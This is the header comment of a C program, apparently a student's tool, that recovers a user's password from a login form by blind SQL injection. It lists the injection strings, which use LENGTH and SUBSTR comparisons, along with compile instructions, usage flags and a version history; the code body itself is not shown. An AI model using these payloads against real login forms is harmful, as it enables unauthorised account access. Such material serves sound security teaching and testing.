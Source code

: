 /************************************************************************************************

 Description  : SQL Injection tool to recover an user's password.
                It uses the following injection methods in the $login_form field :
                "$login_form=$usr_name' AND LENGTH($pwd_col)=i;"        to recover pwd len
                "$login_form=$usr_name' AND SUBSTR($pwd_col,i,1)='$c';" to recover each char
 
 Author       : Caille Jimmy, MSE-ICT student in Telecomunication Networks and Information Security
 
 Prerequisite : install libcurl-dev
 Compile      : gcc attack.c -o attack -lcurl -Wall -Wextra
 Usage        : ./attack -h
      [param] [remark]            [default value]
 Usage: -h    help, this message  -none-
        -U    URL, necessary !    -none-
        -u    username            admin
        -f    username field name username
        -p    password DB name    password
        -P    password field name password
        -m    password min len    1
        -M    password max len    20
        -c    char min (decimal)  ' ' (32)
        -C    char max (decimal)  '~' (126)
        -s    success message     Welcome
        -v    verbose             disabled

 License      : Unlicense, for more information, please refer to <https://unlicense.org>

 Version      : v0.2 - attacking multiple usernames
                v0.3 - parameters added, multiple username removed, cleanup
                v0.4 - strcpy replaced by strncpy for safely copying parameters
                       sprintf replaced by snprtinf
                       differentiates -v verbose   (shows requests)
                                      -r responses (shows html)
                                      -d libcurl debug
                       help displayed when unknown parameter is given

*************************************************************************************************/
